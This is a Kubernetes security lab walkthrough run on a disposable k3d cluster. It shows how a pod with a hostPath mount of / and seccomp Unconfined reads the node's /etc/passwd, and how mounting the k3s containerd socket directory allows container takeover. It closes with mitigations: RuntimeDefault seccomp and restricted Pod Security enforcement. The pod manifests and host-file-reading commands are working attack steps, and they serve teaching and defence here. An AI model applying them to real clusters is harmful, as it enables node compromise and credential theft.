 # Lab 6 — Insecure Volume Mounts & Seccomp Bypass

## Objective
Demonstrate how **hostPath: /** with **seccomp: Unconfined** lets a pod read sensitive files from the **node’s filesystem**, and how mounting **/run/containerd** enables **container takeover**. Close with practical mitigations.

---

## Prereqs
- Docker (or compatible) running
- `k3d` and `kubectl` installed

---

## 0) Create a fresh cluster for this lab
```bash
# Create an isolated k3d cluster
k3d cluster create lab6   --agents 1   --servers 1   --k3s-arg "--disable=traefik@server:*"

# Sanity check
kubectl cluster-info
kubectl get nodes -o wide
```

Create the lab namespace:
```bash
kubectl create ns lab6
```

---

## 1) Pod with full hostPath (/) and seccomp Unconfined
This pod mounts the **host root** at `/mnt/host` (read-only) and disables seccomp filtering so low‑level tooling isn’t blocked.

```bash
cat <<'YAML' > lab6-escape-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: escape-pod
  namespace: lab6
  labels:
    app: lab6
spec:
  securityContext:
    seccompProfile:
      type: Unconfined
  containers:
  - name: pwn
    image: alpine:3.20
    command: ["sleep","infinity"]
    securityContext:
      allowPrivilegeEscalation: true
    volumeMounts:
    - name: host
      mountPath: /mnt/host
      readOnly: true
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
YAML

kubectl apply -f lab6-escape-pod.yaml
kubectl -n lab6 wait pod/escape-pod --for=condition=Ready --timeout=60s
```

### Show the seccomp state (why “Unconfined” matters)
```bash
kubectl -n lab6 exec escape-pod -- sh -c 'grep -E "Seccomp|Name" /proc/1/status'
# Expect: "Seccomp: 0" → unconfined
```

### Exfiltrate a sensitive host file (proof)
```bash
# List host /etc and read passwd
kubectl -n lab6 exec -it escape-pod -- sh -lc   'ls -la /mnt/host/etc | head -n 20 && echo "---" && head -n 20 /mnt/host/etc/passwd'
```


---

## 2) Mount container runtime socket (container takeover)
Now mount **/run/containerd**. With tooling like `crictl` (if available), you can enumerate and control other containers via the host runtime socket.

```bash
cat <<'YAML' > lab6-runtime-pwn.yaml
apiVersion: v1
kind: Pod
metadata:
  name: runtime-pwn
  namespace: lab6
  labels:
    app: lab6
spec:
  securityContext:
    seccompProfile:
      type: Unconfined
  containers:
  - name: tools
    image: alpine:3.20
    command: ["sleep","infinity"]
    volumeMounts:
    - name: k3s
      mountPath: /mnt/k3s
      readOnly: false
  volumes:
  - name: k3s
    hostPath:
      path: /run/k3s
      type: Directory
YAML

kubectl apply -f lab6-runtime-pwn.yaml
kubectl -n lab6 wait pod/runtime-pwn --for=condition=Ready --timeout=60s

# Inspect the directory and the socket
kubectl -n lab6 exec -it runtime-pwn -- sh -lc '
  ls -l /mnt/k3s/containerd | head -n 10;
  echo "---";
  ls -l /mnt/k3s/containerd/containerd.sock 2>/dev/null || echo "containerd.sock not found";
  echo "---";
  if [ -S /mnt/k3s/containerd/containerd.sock ]; then
    echo "OK: /mnt/k3s/containerd/containerd.sock is a Unix socket";
  else
    echo "NOT OK: socket missing or wrong path";
  fi
'

kubectl -n lab6 exec -it runtime-pwn -- sh -lc '
  echo "[sandboxes] (pods on this node)"
  ls -1 /mnt/k3s/containerd/io.containerd.grpc.v1.cri/sandboxes 2>/dev/null | sed "s/^/  - /" || echo "  <none>"

  echo
  echo "[containers] (all containers under k8s.io)"
  ls -1 /mnt/k3s/containerd/io.containerd.runtime.v2.task/k8s.io 2>/dev/null | sed "s/^/  - /" || echo "  <none>"

  echo
  echo "[hint] those IDs map to pods/containers; with ctr/crictl you could inspect/exec/kill them."
'

```

---

## 3) (Optional) Contrast with `RuntimeDefault` seccomp
Spin a second pod that’s identical except it uses the **default seccomp** profile.

```bash
cat <<'YAML' > lab6-escape-pod-default-seccomp.yaml
apiVersion: v1
kind: Pod
metadata:
  name: escape-pod-default
  namespace: lab6
spec:
  securityContext:
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: pwn
    image: alpine:3.20
    command: ["sleep","infinity"]
    volumeMounts:
    - name: host
      mountPath: /mnt/host
      readOnly: true
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
YAML

kubectl apply -f lab6-escape-pod-default-seccomp.yaml
kubectl -n lab6 wait pod/escape-pod-default --for=condition=Ready --timeout=60s

# Show it's filtered (Seccomp: 2)
kubectl -n lab6 exec escape-pod-default -- sh -c 'grep -E "Seccomp|Name" /proc/1/status'
```

---

## 4) Mitigations

### A) Block hostPath to runtime sockets via PodSecurity Admission or policy
```bash
# Enforce the "restricted" Pod Security level at namespace scope
kubectl label ns lab6 pod-security.kubernetes.io/enforce=restricted --overwrite

kubectl -n lab6 delete pod runtime-pwn

# Try to re-apply the runtime socket pod (should be rejected)
kubectl apply -f lab6-runtime-pwn.yaml

#Error from server (Forbidden)
```

### B) Apply strict seccomp (deny‑all → allow‑list)
```bash
kubectl -n lab6 delete pod escape-pod
kubectl apply -f lab6-escape-pod-default-seccomp.yaml
kubectl -n lab6 exec escape-pod-default -- sh -c 'grep -E "Seccomp|Name" /proc/1/status'
```

---

## 5) Cleanup
```bash
k3d cluster delete lab6
```

---

## On‑Stage Cheatsheet (1‑liners)

- **Read host file:**  
  `kubectl -n lab6 exec escape-pod -- sh -lc 'head -n 20 /mnt/host/etc/passwd'`

- **Show Unconfined:**  
  `kubectl -n lab6 exec escape-pod -- sh -c 'grep Seccomp /proc/1/status'`

- **Flip to restricted (watch apply fail):**  
  `kubectl label ns lab6 pod-security.kubernetes.io/enforce=restricted --overwrite`  
  `kubectl apply -f lab6-runtime-pwn.yaml  # expect rejection`
